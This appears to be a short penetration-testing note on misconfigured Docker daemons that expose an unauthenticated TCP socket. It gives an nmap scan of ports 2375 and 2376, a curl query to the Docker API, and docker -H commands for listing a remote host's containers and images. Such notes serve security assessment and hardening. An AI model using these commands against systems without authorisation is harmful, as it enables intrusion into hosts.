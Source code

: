 # Misconfigurations

The Docker daemon can listen for Docker Engine API requests via three different types of Socket `unix`, `tcp`, and `fd`. To access remotely an attacker would have to enable `tcp` socket. The default setup provides un-encrypted and un-authenticated direct access to the Docker daemon. It is conventional to use port `2375` for un-encrypted, and port `2376` for encrypted communication with the daemon.

Scan the `2375` and `2376` port using `nmap`

```text
nmap -p 2375,2376 -n x.x.x.x -v
```

And query the docker api: 

```text
curl x.x.x.x:2375/images/json | jq .
```

The attacker can now abuse this by using the docker daemon configuration to access the host system's docker runtime, giving the attacker access to the host system.

```text
docker -H tcp://IP:2375 ps
docker -H tcp://IP:2375 images
```